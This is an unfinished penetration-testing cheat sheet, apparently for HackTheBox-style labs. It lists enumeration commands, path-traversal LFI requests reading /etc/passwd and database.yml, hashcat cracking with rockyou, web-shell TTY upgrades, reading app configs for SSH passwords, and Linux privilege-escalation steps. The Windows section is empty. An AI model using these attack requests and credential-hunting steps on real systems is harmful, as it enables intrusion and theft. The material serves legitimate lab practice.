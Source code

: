 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm

3
   




---------------------ENUMERATION---------------
1. rustscan --ulimit 10000 -a <IP> -- -sC -Pn
   or
   nmap -sCV -p- <IP>
2. dirsearch -u <IP>
   and
   gobuster vhost -u http://<domain> -w /usr/share/wordlists/dirb/small.txt -k --append-domain
3. (FOR DIR ENUMERATION ON YOUR KNOWN DOMAINS)--> gobuster dir http://<example.domain.com>/ -w /usr/share/wordlists/dirb/cmmon.txt


--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1



-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt




-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)



-------------------------------PRIV ESCA-------------------------------

1) LINUX
     a) sudo -l
     b) netstat -tulpn (google search what is on those ports)
         ssh -L <port>:127.0.0.1:<port> <name>@<domain>.htb and go at the browser locasion




3) WINDOWS






